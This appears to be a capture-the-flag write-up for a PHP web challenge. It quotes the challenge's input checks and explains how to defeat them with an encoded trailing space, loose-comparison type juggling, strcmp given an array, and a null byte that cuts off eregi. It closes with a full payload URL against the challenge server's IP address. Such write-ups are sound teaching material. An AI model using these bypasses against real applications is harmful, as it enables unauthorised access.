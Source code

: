 <h1>Web - 150</h1>
<p>Given an php file. It seems we have to bypass all strange rules. (web09.php)</p>
<p>1. Numeric problem. (It requires input no a number, but bigger than 2016)<br/>
2018%20 can bypass the checking.<br/>
"bar1":"2018%20"
</p>
```php
is_numeric(@$a["bar1"])?die("nope"):NULL;
if(@$a["bar1"]){
	($a["bar1"]>2016)?$v1=1:NULL;
}
```

<p>2.Value in json array. But cannot find by foreach<br/>
It can use php type juggling to bypass. It is because when string compare with integer, string will type casting to integer. (intval('nudt') == 0). So, only need to change one of the value to 0.<br/>
"bar2":[[1],1,2,0,1]
</p>
```php
	if(is_array(@$a["bar2"])){
        if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
        $pos = array_search("nudt", $a["bar2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["bar2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
        }
        $v2=1;

    }	
```

<p>3. String compare with array in strcmp will be null. And %00 can interrput eregi.</p>
```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
		eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
		strpos(($c[0].$d), "isccctf2017")?$v3=1:NULL;
	}
}
```

<p>So, finally payload is http://139.129.108.53:8083/web-09/index.php?iscc={%22bar1%22:%222018%20%22,%22bar2%22:[[1],1,2,0,1]}&cat=0001&cat[0]=00isccctf2017&cat[1][]&dog=%00</p>
